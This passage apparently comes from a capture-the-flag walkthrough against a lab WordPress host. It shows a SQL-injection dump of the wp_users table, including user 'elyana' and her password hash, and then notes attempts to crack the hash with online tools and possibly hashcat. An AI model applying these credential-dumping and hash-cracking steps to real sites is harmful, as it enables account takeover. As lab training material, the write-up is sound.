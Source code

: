```

Database: wordpress
Table: wp_users
[10 columns]
+---------------------+---------------------+
| Column              | Type                |
+---------------------+---------------------+
| display_name        | varchar(250)        |
| ID                  | bigint(20) unsigned |
| user_activation_key | varchar(255)        |
| user_email          | varchar(100)        |
| user_login          | varchar(60)         |
| user_nicename       | varchar(50)         |
| user_pass           | varchar(255)        |
| user_registered     | datetime            |
| user_status         | int(11)             |
| user_url            | varchar(100)        |
+---------------------+---------------------+
```
**Dump contents of "wp_users" table**
```
Database: wordpress
Table: wp_users
[1 entry]
+----+--------------------------------+------------------------------------+------------+---------------+-------------+--------------+---------------+---------------------+---------------------+
| ID | user_url                       | user_pass                          | user_login | user_email    | user_status | display_name | user_nicename | user_registered     | user_activation_key |
+----+--------------------------------+------------------------------------+------------+---------------+-------------+--------------+---------------+---------------------+---------------------+
| 1  | http://192.168.8.110/wordpress | $P$BhwVLVLk5fGRPyoEfmBfVs82bY7fSq1 | elyana     | none@none.com | 0           | elyana       | elyana        | 2020-10-05 19:55:50 | <blank>             |
+----+--------------------------------+------------------------------------+------------+---------------+-------------+--------------+---------------+---------------------+---------------------+
```
* Elyana is only user on target host.
#### Attempt to crack "user_pass" hash.
* [CyberChef](https://gchq.github.io/CyberChef/#recipe=Analyse_hash()&input=JFAkQmh3VkxWTGs1ZkdSUHlvRWZtQmZWczgyYlk3ZlNxMQ) reports that hash is invalid when analysed.
* [hashes.com](https://hashes.com/en/decrypt/hash) could not find a match.
* [crackstation.net](https://crackstation.net/) returned an "unrecognized hash format".
* hashcat?
## Privilege Escalation
